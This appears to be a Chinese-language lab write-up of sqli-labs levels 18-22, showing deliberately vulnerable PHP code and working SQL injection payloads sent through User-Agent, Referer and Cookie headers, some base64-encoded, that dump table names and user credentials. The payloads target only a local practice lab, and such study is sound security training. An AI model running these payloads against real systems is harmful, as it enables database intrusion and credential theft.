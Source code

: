 # sqli-labs靶场(3)POST头部


sqli-labs靶场精简记录18-22

<!--more-->

### Less-18 POST - Header Injection - Uagent field - Error based

基于错误的用户代理，头部POST注入

```
	$uname = check_input($_POST['uname']);
	$passwd = check_input($_POST['passwd']);
...
			$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
			mysql_query($insert);
			//echo 'Your IP ADDRESS is: ' .$IP;
```

注入点在insert 语句，未对 uagent 和 ip_address 进行过滤，并且输出报错信息

> **PHP 里用来获取客户端 IP 的变量**
>
> - `$_SERVER['HTTP_CLIENT_IP']` 很少使用，客户端可以伪造。
> - `$_SERVER['HTTP_X_FORWARDED_FOR']`，客户端可以伪造。
> - `$_SERVER['REMOTE_ADDR']`，客户端不能伪造。

这里的IP无法伪造，故通过user-agent来进行注入

payload:爆数据库

```http
POST /Less-18/ HTTP/1.1
Host: 127.0.0.1:8888
User-Agent: ' and extractvalue(1,concat(0x7e,(select database()),0x7e)) and '
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:8888/Less-18/
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Connection: close
Upgrade-Insecure-Requests: 1

uname=admin&passwd=admin&submit=Submit
```

这里不使用注释符

```
$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
```

uagent 是在 IP 和 uname 之前的，如果注释掉后面的语句，会导致 Insert 语句异常

extractvalue()函数

```
爆表:
' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database())))  and '
爆列名：
' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security')))  and ' 
爆列名：
' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security')))  and ' 

' and extractvalue(1,concat(0x7e,(select group_concat(username,0x3a,password) from users where username not in ('Dumb','Angelinal')))) and ' 
```

updatexml()函数

```
数据库:
' or updatexml(1,concat('#',(database())),0),' ',' ')-- #
' and updatexml(1,concat('#',(database())),0),' ',' ')-- #
爆表：
' or updatexml(1,concat('#',(select group_concat(table_name) from information_schema.tables where table_schema='security')),0),'','')#
爆字段
' and updatexml(1,concat('#',(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users')),0),'','')-- #
爆数据：
' and updatexml(1,concat('#',(select * from (select concat_ws('#',id,username,password) from users limit 0,1) a)),0),'','')-- #
使用limit偏移注入依次爆出其他用户和密码。 
```

### Less-19 POST - Header Injection - Referer field - Error based

基于头部的Referer POST报错注入

```
	$uagent = $_SERVER['HTTP_REFERER'];
	$IP = $_SERVER['REMOTE_ADDR'];
...
	$uname = check_input($_POST['uname']);
	$passwd = check_input($_POST['passwd']);
...
			$insert="INSERT INTO `security`.`referers` (`referer`, `ip_address`) VALUES ('$uagent', '$IP')";
			mysql_query($insert);	
...	
			echo 'Your Referer is: ' .$uagent;
```

注入点在referer，payload同上题

### Less-20 POST - Cookie injections - Uagent field - Error based 

基于错误的cookie头部POST注入

```
      $cookee = $_COOKIE['uname'];
...
			echo "YOUR COOKIE : uname = $cookee and expires: " . date($format, $timestamp);
...
			$sql="SELECT * FROM users WHERE username='$cookee' LIMIT 0,1";
...
				print_r(mysql_error());
```

payload

```http
GET /Less-20/ HTTP/1.1
Host: 192.168.131.1:1111
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: uname=-admin' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```



### Less-21 Cookie Injection- Error Based- complex - string

基于 base64 编码单引号和括号的 Cookie 注入

vul

```
			$cookee = $_COOKIE['uname'];
...
			echo "YOUR COOKIE : uname = $cookee and expires: " . date($format, $timestamp);
...
			$cookee = base64_decode($cookee);
			echo "<br></font>";
			$sql="SELECT * FROM users WHERE username=('$cookee') LIMIT 0,1";
```

注入点在cookie，但经过base64编码了

payload

```http
GET /Less-21/ HTTP/1.1
Host: 127.0.0.1:8888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: uname=c3Fsc2VjJykgdW5pb24gc2VsZWN0IDEsMiwoU0VMRUNUIEdST1VQX0NPTkNBVCh1c2VybmFtZSxwYXNzd29yZCBTRVBBUkFUT1IgMHgzYzYyNzIzZSkgRlJPTSB1c2Vycykj
Connection: close
Upgrade-Insecure-Requests: 1
```

### Less-22 Cookie Injection- Error Based- Double Quotes - string

基于错误的双引号字符型Cookie注入

bypass

改双引号闭合

payload

```
GET /Less-22/ HTTP/1.1
Host: 127.0.0.1:8888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: uname=MSIgb3IgZXh0cmFjdHZhbHVlKDEsY29uY2F0KDB4N2UsKHNlbGVjdCBncm91cF9jb25jYXQodGFibGVfbmFtZSkgZnJvbSBpbmZvcm1hdGlvbl9zY2hlbWEudGFibGVzIHdoZXJlIHRhYmxlX3NjaGVtYT1kYXRhYmFzZSgpKSwweDdlKSktLSAj
Connection: close
Upgrade-Insecure-Requests: 1
```

